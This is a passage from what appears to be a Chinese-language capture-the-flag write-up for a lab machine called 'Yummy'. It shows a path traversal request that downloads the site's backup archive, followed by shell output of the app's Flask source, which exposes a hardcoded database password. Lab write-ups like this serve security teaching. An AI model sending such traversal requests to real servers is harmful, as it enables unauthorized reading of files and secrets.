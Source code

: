 ![](./images/image-176.png)

直接下载这个文件

```
GET /export/../../../../../var/www/backupapp.zip HTTP/1.1
```

读取里面的`app.py`，发现**数据库密码**泄露

```
[root@kali] /home/kali/Yummy/opt/app  
❯ cat app.py               
from flask import Flask, request, send_file, render_template, redirect, url_for, flash, jsonify, make_response
import tempfile
import os
import shutil
from datetime import datetime, timedelta, timezone
from urllib.parse import quote
from ics import Calendar, Event
from middleware.verification import verify_token
from config import signature
import pymysql.cursors
from pymysql.constants import CLIENT
import jwt
import secrets
import hashlib

app = Flask(__name__, static_url_path='/static')
temp_dir = ''
app.secret_key = secrets.token_hex(32)

db_config = {
    'host': '127.0.0.1',
    'user': 'chef',
    'password': '3wDo7gSRZIwIHRxZ!',
    'database': 'yummy_db',
    'cursorclass': pymysql.cursors.DictCursor,
    'client_flag': CLIENT.MULTI_STATEMENTS

}

access_token = ''
................
................
```
